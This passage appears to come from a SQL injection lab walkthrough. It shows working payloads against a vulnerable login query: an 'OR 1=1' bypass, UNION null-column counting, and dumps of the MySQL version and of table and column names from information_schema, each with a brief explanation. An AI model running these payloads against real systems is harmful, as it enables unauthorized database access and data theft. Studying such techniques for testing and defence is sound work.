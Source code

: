 We can check if **SQLI** is possible by using this query -  `admin' OR 1=1#` or `admin' OR 1=1-- -` and here is the output

![](https://i.imgur.com/MDvwaaB.png)

Since we don't know how many **columns** exists on this table we could use the `UNION` query to query for information we need

```
admin' union select null,null,null#
```

**_Where :_**

>`admin` is likely an attempt to target a user or role named "admin" in the database.
  `union` is used to combine the result of the injected query with the original query.
  `select null, null, null` is an attempt to retrieve three columns of data. The null values here may be placeholders, and an attacker would typically replace them with actual data or malicious code.
 `#` is used to comment out the rest of the query, effectively ignoring any text that follows it.


#### **Example**

![](https://i.imgur.com/NpwfYPk.png)

If we get a **No users found** related message then you should keep adding the `null,` statement, till we have something positive as shown above

### **Dumping MYSQL Version**

```
admin' union select null,null,version()#
```

we can just replace the third null with `version()` and should give us the version of MYSQL

![](https://i.imgur.com/vvi9x1D.png)



### **Dumping Table Names**

```
admin' union select null,null,table_name from information_schema.tables#
```



![](https://i.imgur.com/WPBQJ6b.png)



### **Dumping Columns Names**

```
admin' union select null,null,column_name from information_schema.columns#
```



![](https://i.imgur.com/vagSHjo.png)


